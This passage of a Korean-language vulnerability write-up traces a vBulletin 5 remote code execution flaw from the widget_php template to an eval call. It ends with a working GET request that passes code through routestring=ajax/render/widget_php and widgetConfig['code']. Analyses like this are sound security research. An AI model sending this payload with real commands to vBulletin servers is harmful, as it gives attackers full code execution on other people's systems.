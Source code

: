```xml
                <span class="note">{vb:phrase click_edit_to_config_module}</span>
            </vb:if>
        </vb:if>
    </div>
<div>]]></template>

(생략)
```
<strong>widget_php 템플릿을 확인해보면 `$widgetConfig['code']`의 값이 비어있지 않고, `!$vboptions['disable_php_rendering']`가 비활성화 되어 있으면 다음 코드를 코드를 실행하는 것을 볼 수 있습니다.</strong><br>

```xml
{vb:action evaledPHP, bbcode, evalCode, {vb:raw widgetConfig.code}}
{vb:raw $evaledPHP}
```

```php
// includes/vb5/frontend/controller/bbcode.php

(생략)
    function evalCode($code)
    {
        ob_start();
        eval($code);
        $output = ob_get_contents();
        ob_end_clean();
        return $output;
    }

(생략)
```
<strong>evalCode 메서드는 `includes/vb5/frontend/controller/bbcode.php` 내에 정의하고 있고, eval 함수를 이용해서 $code 값을 실행시키고, `$output` 값을 리턴해주는 것을 볼 수 있습니다.</strong><br><br>

<strong>결론적으로 RCE를 트리거 하기 위해서는 `includes/vb5/frontend/applicationlight.php`에서 `isQuickRoute` 메서드에서 rotuestring의 값이 'ajax/render'여야 하고, callRender에서 $routeInfo[2]의 값은 `'widget_php'`여야 하고, `widget_php` 템플릿에서는 `$widgetConfig['code']`의 값이 존재해야 하고, eval 함수의 인자 값으로도 `$widgetConfig['code']`가 들어갑니다.</strong><br><br>

```php
$routeInfo = explode('/', $_REQUEST['routestring']);
$params = array_merge($_POST, $_GET);
print_r($routeInfo);
print_r($params);

input  : http://141.164.52.207/?routestring=ajax/render/widget_php&widgetConfig['code']=phpinfo();
output : Array ( [0] => ajax [1] => render [2] => widget_php ) Array ( [routestring] => ajax/render/widget_php [widgetConfig] => Array ( ['code'] => phpinfo(); ) )
```
<strong>그리고 사용자 값을 받을 때, $_REQUEST를 이용해서 받아 오기 때문에 GET, POST 메서드를 이용해서 공격을 수행할 수 있습니다. 그러니 GET으로 익스를 하려면 위와 같이 그냥 값을 넘겨 주게 되면 substr($_REQUEST['routestring'], 0, 11)의 값이 `'ajax/render'`이기 때문에 참이 반환되는 동시에 vB5_Frontend_ApplicationLight::init가 실행 돼 __construct 메서드가 실행이 될 것이고, __construct 메서드에서도 substr($_REQUEST['routestring'], 0, 11)의 값이 `'ajax/render'`이기 때문에 handler를 callRender로 설정하게 됩니다. callRender 메서드에서는 routeInfo[2]의 값으로는 `'widget_php'`, widgetConfig['code']의 값으로는 `'phpinfo();'`가 들어가 있어 2개의  widget_php 템플릿으로 전송이 됩니다. widget_php에서는 widgetConfig['code']가 비어있지 않기 때문에 evalCode로 widgetConfig['code']가 전송이 되어 phpinfo(); 함수가 실행이 되며 RCE가 성공적으로 트리거 되게 됩니다.</strong><br><br>

---